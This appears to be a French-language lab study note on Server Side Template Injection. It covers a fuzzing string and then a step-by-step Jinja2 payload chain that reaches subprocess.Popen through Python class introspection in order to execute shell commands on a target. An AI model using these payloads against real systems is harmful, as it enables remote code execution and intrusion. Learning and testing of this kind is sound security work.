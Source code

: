 # Server Side Template Injection (SSTI)
L'objectif principal est généralement  d'obtenir l'exécution de code à distance

Les Point d'injection:
- URL
- Zone de saisie

---
## Fuzzing
Les moteurs de modèles utilisent un jeu de caractères similaire pour leurs « fonctions spéciales », ce qui permet de détecter rapidement s'il est vulnérable au SSTI.

Payload:  ils peuvent être envoyés les uns après les autres. 

```sh
${{<%[%'"}}%
```

> Continuez ce processus jusqu'à ce que vous obteniez une erreur ou que certains caractères commencent à disparaître de la sortie.

---
## Exploit

A ce stade, nous savons :
- L'application est vulnérable au SSTI
- Le point d'injection
- Le moteur de modèles
- La syntaxe du moteur de modèles

---
## POC Jinja 2
Jinja2 est essentiellement un sous-langage de Python qui n'intègre pas l' instruction `import`
Not work: `http://MACHINE_IP:5000/profile/{% import os %}{{ os.system("whoami") }}`

Revershell 03 methodes:
```sh
import os
os.system("whoami")
```

```sh
import os
os.popen("whoami").read()
```

```sh
import subprocess
subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

---
- Python nous permet d'appeler l'instance de classe actuelle avec .__class__ , nous pouvons appeler ceci sur une chaîne vide :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__ }}
```

- Les classes en Python ont un attribut appelé .__mro__ qui nous permet de remonter dans l'arborescence des objets hérités :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__ }}
```

- Puisque nous voulons l'objet racine, nous pouvons accéder à la deuxième propriété (premier index) :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1] }}
``` 

- Les objets en Python ont une méthode appelée .__subclassess__ qui nous permet de descendre dans l'arborescence des objets :
```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Comme l’ensemble de cette sortie n’est qu’une liste Python, 
Nous devons maintenant trouver un objet qui nous permet d'exécuter des commandes shell. Faire un Ctrl-F et rechercher
`subprocess.Popen` nous pouvons y accéder en utilisant son index.

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}
```


il ne nous reste plus qu'à l'invoquer 

```sh
http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}
```

